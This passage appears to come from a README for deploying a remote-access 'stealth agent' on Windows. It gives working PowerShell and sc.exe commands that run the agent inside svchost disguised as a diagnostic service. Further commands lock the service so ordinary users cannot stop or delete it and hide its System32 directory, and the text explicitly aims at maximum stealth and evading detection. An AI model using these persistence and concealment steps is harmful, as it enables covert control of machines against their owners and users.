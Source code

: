 ### Svchost-Hosted Mode

```powershell
.\deploy_stealth_agent.ps1 -Mode svchost -SourcePath ".\MeshServiceHost64_StealthLab.dll"
```

**Characteristics:**
- Runs inside `svchost.exe -k netsvcs`
- Service DLL: `diagsvc.dll`
- Blends with legitimate Windows services
- Maximum stealth
- Harder to detect in process list

---

## Security Hardening

### Service DACL Protection

```powershell
# Prevents unauthorized service control
$sddl = "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)"
sc.exe sdset WinDiagnosticHost $sddl
```

**Permissions:**
- SYSTEM: Full control
- Administrators: Full control
- Users: Query status only (no stop/delete)

### File System Protection

```powershell
# Hide installation directory
attrib +h +s "C:\Windows\System32\DiagnosticHost"

# Set restrictive ACLs
icacls "C:\Windows\System32\DiagnosticHost" /inheritance:r /grant:r "SYSTEM:(OI)(CI)F" "Administrators:(OI)(CI)F"
```

---

## Verification Commands

### Check Service Status

```powershell
# Service status
Get-Service WinDiagnosticHost

# Service configuration
sc.exe qc WinDiagnosticHost

# Service process
Get-Process -Name diaghost -ErrorAction SilentlyContinue
# OR for svchost mode:
Get-Process -Name svchost | Where-Object { $_.CommandLine -like "*netsvcs*" }
```
